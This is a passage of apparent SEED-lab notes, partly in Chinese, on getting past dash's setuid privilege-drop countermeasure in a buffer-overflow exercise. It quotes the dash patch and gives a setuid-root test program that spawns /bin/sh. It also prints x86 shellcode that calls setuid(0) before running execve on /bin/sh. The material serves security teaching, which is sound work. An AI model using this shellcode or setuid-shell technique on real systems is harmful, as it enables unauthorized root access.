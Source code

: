 ### Task 3: Defeat dash's Countermeasure

dash's changelog

```c
// https://launchpadlibrarian.net/240241543/dash_0.5.8-2.1ubuntu2.diff.gz
// main() function in main.c has following changes:
++ uid = getuid();
++ gid = getgid();
++ /*
++ * To limit bogus system(3) or popen(3) calls in setuid binaries,
++ * require -p flag to work in this situation.
++ */
++ if (!pflag && (uid != geteuid() || gid != getegid())) { ➀
    
++ 		setuid(uid);
++ 		setgid(gid);
++ /* PS1 might need to be changed accordingly. */
++ 		choose_ps1();
++ }
```

可以在执行shell之前setuid一下，这样可以绕过检测。（原理还不曾查找。。。。

可通过以下程序进行测试验证

```c
// dash_shell_test.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main()
{
	char *argv[2];
	argv[0] = "/bin/sh";
	argv[1] = NULL;
	// setuid(0); ➀
	execve("/bin/sh", argv, NULL);
	return 0;
}
```

```shell
$ gcc dash_shell_test.c -o dash_shell_test
$ sudo chown root dash_shell_test
$ sudo chmod 4755 dash_shell_test
```

改变之后的shellcode

```c
char shellcode[] =
"\x31\xc0" /* Line 1: xorl %eax,%eax */
"\x31\xdb" /* Line 2: xorl %ebx,%ebx */
"\xb0\xd5" /* Line 3: movb $0xd5,%al */
"\xcd\x80" /* Line 4: int $0x80 */
// ---- The code below is the same as the one in Task 2 ---
"\x31\xc0"
"\x50"
"\x68""//sh"
"\x68""/bin"
"\x89\xe3"
"\x50"
"\x53"
"\x89\xe1"
"\x99"
"\xb0\x0b"
"\xcd\x80"
```